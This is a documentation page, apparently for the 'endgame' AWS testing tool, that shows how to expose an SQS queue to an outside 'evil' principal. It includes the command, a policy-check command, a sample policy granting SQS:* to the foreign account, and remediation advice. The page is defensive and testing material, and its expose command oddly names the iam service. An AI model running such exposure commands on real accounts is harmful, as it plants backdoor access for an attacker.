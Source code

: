 # SQS

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* To verify that the SQS queue has been shared with a rogue user, run the following from the victim account:

```bash
export QUEUE_URL=(`aws sqs get-queue-url --queue-name test-resource-exposure | jq -r '.QueueUrl'`)

aws sqs get-queue-attributes --queue-url $QUEUE_URL --attribute-names Policy
```

* Observe that the contents match the example shown below.

## Example

The policy below allows the Evil Principal's account ID (`999988887777` access to `sqs:*` to the victim resource (`arn:aws:sqs:us-east-1:111122223333:test-resource-exposure`), indicating a successful compromise.


```json
{
    "Attributes": {
        "Policy": "{\"Version\":\"2008-10-17\",\"Id\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure/SQSDefaultPolicy\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"}]}"
    }
}

```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SQS Queues are only shared with trusted accounts, and that the trusted accounts truly need access to the SQS Queue.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to  SQS Queues. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SQS Queues**: Tightly control access to the following IAM actions:
  - [sqs:AddPermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_AddPermission.html): _Description_
  - [sqs:RemovePermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_RemovePermission.html): _Description_
  - [sqs:GetQueueAttributes](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueAttributes.html): _Gets attributes for the specified queue. This includes retrieving the list of principals who are authorized to access the queue._
  - [sqs:GetQueueUrl](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueUrl.html): _Returns the URL of an existing queue._
  - [sqs:ListQueues](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_ListQueues.html): _Returns a list of your queues._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [aws sqs add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sqs/add-permission.html)
* [aws sqs get-queue-attributes](https://docs.aws.amazon.com/cli/latest/reference/sqs/get-queue-attributes.html)
